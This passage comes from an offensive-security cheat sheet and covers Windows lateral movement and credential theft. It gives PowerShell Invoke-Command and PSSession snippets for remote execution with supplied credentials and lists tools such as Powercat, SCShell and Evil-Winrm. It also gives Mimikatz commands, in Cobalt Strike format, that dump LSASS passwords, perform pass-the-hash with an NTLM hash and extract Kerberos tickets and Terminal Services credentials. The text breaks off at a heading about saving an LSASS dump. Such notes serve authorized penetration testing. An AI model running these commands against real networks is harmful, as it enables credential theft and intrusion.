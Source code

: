 ### Remote Code Execution with PS Credentials

```text
$SecPassword = ConvertTo-SecureString '$Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('$DomainName\$User', $SecPassword)
Invoke-Command -ComputerName $ComputerName -Credential $Cred -ScriptBlock {whoami /all}
```

### Import a PowerShell module and execute its functions remotely

```text
#Execute the command and start a session
Invoke-Command -Credential $cred -ComputerName $ComputerName -FilePath $PSModule_FilePath -Session $sess 

#Interact with the session
Enter-PSSession -Session $sess
```

### Executing Remote Stateful commands

```text
#Create a new session
$sess = New-PSSession -ComputerName $ComputerName

#Execute command on the session
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}

#Check the result of the command to confirm we have an interactive session
Invoke-Command -Session $sess -ScriptBlock {$ps}
```

### Useful Tools

* [Powercat](https://github.com/besimorhino/powercat) netcat written in powershell, and provides tunneling, relay and portforward capabilities.
* [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) fileless lateral movement tool that relies on ChangeServiceConfigA to run command
* [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) the ultimate WinRM shell for hacking/pentesting
* [RunasCs](https://github.com/antonioCoco/RunasCs) Csharp and open version of windows builtin runas.exe

## Mimikatz

```text
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:$UserName /ntlm:$NTLM_Hash /domain:$Domain_FQDN

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
```